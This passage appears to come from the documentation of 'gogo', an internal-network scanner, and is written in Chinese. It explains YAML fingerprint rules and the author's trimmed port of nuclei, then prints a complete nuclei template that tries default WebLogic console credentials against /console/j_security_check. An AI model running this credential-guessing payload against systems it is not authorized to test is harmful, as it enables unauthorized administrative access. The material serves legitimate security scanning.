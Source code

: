 3. favicon md5 hash指纹
3. favicon mmh3 hash指纹

只需要编写yaml就能快速配置一个相对来说复杂的指纹识别. 并且不仅限于指纹识别, 一些简单的漏洞探测都可以在这里完成配置.


### 漏洞探测
我选用了目前最活跃的社区,也是代码质量相对较高, 最关键的poc可快速配置的工具nuclei.

当然, nuclei本身支持更加复杂的漏洞探测, 例如headless, 条件竞争漏洞, 需要dnslog/httplog的漏洞探测, dsl等等, 这些功能在内网并不实用, 所以我阉割了部分功能,只保留最关键的tcp与http漏洞探测.

对于大部分情况,已经够用了, 可以快速用nuclei社区移植poc到gogo中. 但是为了防止大量无效poc污染扫描结果, 我选择人工筛选poc.


示例: 编写一个weblogic弱口令的poc
```
id: weblogic-weak-pass

info:
  name: WebLogic weak login
  author: pdteam
  severity: high
  tags: weblogic-console

requests:
  - raw:
      - |
        POST /console/j_security_check HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Referer: {{BaseURL}}/console/login/LoginForm.jsp

        j_username={{username}}&j_password={{password}}&j_character_encoding=UTF-8
    attack: pitchfork
    payloads:
      username:
        - weblogic
        - weblogic
        - weblogic
        - weblogic
        - weblogic
        - admin
        - admin
        - system

      password:
        - weblogic
        - weblogic1
        - welcome1
        - Oracle@123
        - weblogic123
        - 12345678
        - security
        - password

    stop-at-first-match: true
    cookie-reuse: true
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - "ADMINCONSOLESESSION"
        condition: and

```
